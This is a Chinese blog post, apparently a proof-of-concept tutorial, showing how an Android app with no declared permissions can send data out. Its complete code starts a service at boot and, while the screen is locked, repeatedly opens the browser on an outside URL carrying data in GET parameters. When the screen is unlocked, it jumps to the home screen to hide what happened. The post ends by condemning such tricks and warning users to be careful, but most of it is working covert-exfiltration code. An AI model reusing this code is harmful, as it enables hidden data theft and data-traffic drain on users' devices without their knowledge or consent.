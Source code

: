 上次写过一篇文章  抛砖引玉 之 谁动了我的隐私(android用户隐私窥探)  描述如何读取系统log缓冲区但还存在权限提示问题。
这次来个稍微好点的，真正的0权限上传数据。
同上次讲的一样，虽然大部分用户在安装app时对权限警告视而不见，但相信以后用户会对权限问题越来越重视的。
这次咱们先真正的来一次0权限上传热热身。
#### 一、原理
首先利用的还是那个开机启动bug。
然后，在手机锁屏时上传数据。
如何上传数据呢，为了避免权限咱们得瞒天过海。
我们知道，在Intent转向的时候，可以转到标记为ACTION_VIEW的activity，而浏览器都有这个标记，可以传一个uri过去。
soga,说到这里，，明白了吧。就是使用http的GET传参，虽然只能传明文，但已经够了，更何况一次能传输的字节也还是很客观的。
至于传什么，每个想实现这种功能的人都有其目的吧。
#### 二、实现
首先是清单文件，不需要声明任何权限，只需要写一个广播接收者和一个服务即可。
```  
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    package="org.igeek.hack"
    android:versionCode="1"
    android:versionName="1.0" >
    <uses-sdk android:minSdkVersion="8" />
    <application
        android:icon="@drawable/icon"
        android:label="@string/app_name" >
        <receiver android:name=".reciver.HackReceiver" >
            <intent-filter android:priority="1000" >
                <action android:name="android.intent.action.BOOT_COMPLETED" />
            </intent-filter>
        </receiver>
        <service android:name=".service.HackerService" />
    </application>
</manifest>
```
然后就是广播接收者的实现，很简单，单纯的开启一个服务。
```  
import org.igeek.hack.service.HackerService;
import android.content.BroadcastReceiver;
import android.content.Context;
import android.content.Intent;
public class HackReceiver extends BroadcastReceiver {
	@Override
	public void onReceive(Context context, Intent intent) {
		Intent it = new Intent(context, HackerService.class);
		context.startService(it);
	}
}
```
最后，就是关键部分，服务的实现。
```  
import java.util.Random;
import android.app.KeyguardManager;
import android.app.Service;
import android.content.BroadcastReceiver;
import android.content.Context;
import android.content.Intent;
import android.content.IntentFilter;
import android.net.Uri;
import android.os.Handler;
import android.os.IBinder;
import android.util.Log;
public class HackerService extends Service {
	private ScreenOnBroadcastReciver soReciver;
	private ScreenOFFBroadcastReciver sfReciver;
	private Handler handler;
	final static String LOG_TAG = "hack";
	KeyguardManager keyguardManager;
	Intent it;
	// GET提交地址
	final String HACK_URL = "http://www.igeek.org/hack?info=";
	private Runnable r = new Runnable() {
		@Override
		public void run() {
			// 如果是锁屏状态
			if (keyguardManager.inKeyguardRestrictedInputMode()) {
				// GET上传，内容随你
				String hackInfo = "hack!!!!your information!!!!!!!&r=
						+ new Random().nextFloat();
				it.setFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
				Uri uri = Uri.parse(HACK_URL + hackInfo);
				it.setData(uri);
				startActivity(it);
				Log.i(LOG_TAG, "提交数据->" + HACK_URL + hackInfo);
				// 每隔5秒，执行一次上传
				handler.postDelayed(r, 5000);
			}
		}
	};
	@Override
	public void onStart(Intent intent, int startId) {
		super.onStart(intent, startId);
		keyguardManager = (KeyguardManager) getSystemService(Context.KEYGUARD_SERVICE);
		it = new Intent(Intent.ACTION_VIEW);
		handler = new Handler();
		Log.i(LOG_TAG, "开机完成，注册广播接收者");
		soReciver = new ScreenOnBroadcastReciver();
		sfReciver = new ScreenOFFBroadcastReciver();
		IntentFilter onIntentFilter = new IntentFilter(
				"android.intent.action.SCREEN_ON");
		registerReceiver(soReciver, onIntentFilter);
		IntentFilter offIntentFilter = new IntentFilter(
				"android.intent.action.SCREEN_OFF");
		registerReceiver(sfReciver, offIntentFilter);
	}
	@Override
	public IBinder onBind(Intent intent) {
		return null;
	}
	[Tags]/**
	 [Tags]* 解锁广播接收者
	 [Tags]*/
	class ScreenOnBroadcastReciver extends BroadcastReceiver {
		@Override
		public void onReceive(Context context, Intent intent) {
			Log.i(LOG_TAG, "屏幕解开");
			handler.removeCallbacks(r);
			intent.setAction(Intent.ACTION_MAIN);
			intent.addCategory(Intent.CATEGORY_HOME);
			intent.setFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
			Log.i(LOG_TAG, "转向HOME");
			startActivity(intent);
		}
	}
	[Tags]/**
	 [Tags]* 锁屏广播接收者
	 [Tags]*/
	class ScreenOFFBroadcastReciver extends BroadcastReceiver {
		@Override
		public void onReceive(final Context context, Intent intent) {
			Log.i(LOG_TAG, "屏幕锁住");
			// 500ms后开始执行上传数据
			handler.postDelayed(r, 500);
		}
	}
}
```
#### 三、效果
哈，运行下试试，关机。。。开机。。。锁屏。。解锁。。没发现什么反应啊。。。再看看程序管理。。Hack程序也没有任何权限提示啊。
![img](P)  
真的这样吗？来看看log。
![img](P)  
you see? 流量就这么悄悄的耗了。
本工程包地址：hack_0p_upload.zip
#### 结束语
这么流氓的伎俩，相信谁都不想碰到，google market也混乱的一塌糊涂，android app混乱的不成样子，大家还是擦亮双眼，安全，一定要注意的。